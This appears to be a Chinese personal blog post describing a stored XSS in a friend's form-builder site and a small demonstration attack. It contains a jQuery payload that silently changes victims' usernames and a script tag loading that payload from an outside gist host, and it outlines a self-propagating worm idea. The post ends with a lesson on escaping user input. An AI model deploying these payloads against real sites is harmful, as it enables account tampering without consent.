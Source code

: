 ```yaml
---
layout: post
title: 一次简单的 Cross-Site Scripting XSS 跨站脚本攻击

published: true

tags:
- javascript
- cross-site scripting
- xss
- web security

type: post
status: publish
---
```


[Cross-Site Scripting XSS](http://en.wikipedia.org/wiki/Cross-site_scripting) 做网页应用的都了解。之前一直知道在开发中要注意防范这个，但是没有试过。一个偶然的机会，在朋友开发的一个网站上小试了一把。

### 发现漏洞

说实话现在同事或者朋友的网站，见了输入框就想试一把 Javascript 注入。这次有一个某数据调查网站，做的十分精巧，用起来也很不错。其中有一个页面，是用户可以自己创建一个表单。表单可以有很多种元素，包括单选、 多选、 单行文本、 多行文本、 数字、 日期、 下拉框等。大多数用户输入都是安全的，但是还是发现了用户自定义单选选项，这个的 Javascript 输入没有被转义。

![在 input 中输入 Javascript]({{ site.static_url }}/images/2013/xss-javascript-code-inject.jpg)

上图可以看到在用户自定义表单的单选项目时，在项目选项中输入了一个简单的 `<script>alert(1);</script>`

![没有被转移的 Javascript]({{ site.static_url }}/images/2013/xss-unescaped-javascript.jpg)

保存后，打开这个编辑页面，都可以看到这个没有被转移的 Javascript 被执行了。

### 进行攻击

哦耶，下一步就是想如何利用这个漏洞了。如何让更多的用户访问到被恶意代码注入的网页？我测试的将表单发给用户，但是表单填写页面的 Javascript 都被转移了，即 注入 只存在在编辑页面上。幸好该产品有一个合作编辑功能，即可以把某个表单共享给好友让他一起编辑。

<!-- more -->

下面就是完善注入的代码达到攻击的效果。注入的 Javascript 通过获取被攻击用户的 Cookies，就可以伪装称被攻击者来进行操作。我采取了用户 Profile 管理的一个接口，用户在 Profile 管理时，可以通过一个 form 来修改用户名。这个 form 是一个很简单的 post 提交。我们可以通过 注入 的 Javascript 来伪造他。

    $(function(){
      var randomNum = Math.floor(Math.random() * 10000);

      $.post('/profile', {
        '_method': 'put',
        'user[nick_name]': 'I Love Feng Zhichao ' + randomNum
      });
    });

上面这段代码就是通过 jQuery 来 Post 一个请求到 /profile 上，来更新 user 的 nick_name。注意由于该产品不允许有重复的 nick_name，所以加入了一个随机数字来保证唯一性。（之前试了 n 把一直不成功才发现是用户名重复...）

由于该表单选项有字符数限制，只能将这段代码托管到别的地方，又是 [github](https://github.com/) 上： [https://gist.github.com/4681574](https://gist.github.com/4681574)。获取其 raw 文件 url 为：https://gist.github.com/raw/4681574.js。

![攻击的 Javascript]({{ site.static_url }}/images/2013/xss-attack-code.jpg)

在表单上注入 `<script src='https://gist.github.com/raw/4681574.js'>`。

### 小试牛刀

先试一个，将该表单共享给某个好友，当该好友打开其编辑页面时：

![Ajax 的 Post 请求]({{ site.static_url }}/images/2013/xss-ajax-post.jpg)

注入的 Javascript 会发送一个 Ajax Post 请求，这个请求就会将被攻击用户的用户名修改了。

![被恶意修改了的用户名]({{ site.static_url }}/images/2013/xss-modified-user-nick-name.jpg)

看上图的右上角，被攻击用户的用户名已经被注入的 Javascript 恶意修改了。

### 后记

发给几个朋友娱乐了一下并告知他们后，这个漏洞很快就被修复了，我也没有做更进一步的攻击。如果真正的想做攻击的话，注入的脚步需要更为复杂一些，而且需要像病毒一样的可自我传播。就不能仅仅是修改个用户名这么娱乐化了。比如可以通过 Javascript 再给被攻击者创建一个带有注入脚步的表单，然后获取被攻击者的好友并把这个表单共享给他们编辑。这样就会使攻击散播的更为广泛。

这个知道就行了，大家以后的代码都得谨慎，可不能为了一点儿偷懒或者自以为用户很乖就忽视 XSS。记住一点，永远不能轻易相信用户提交的数据！
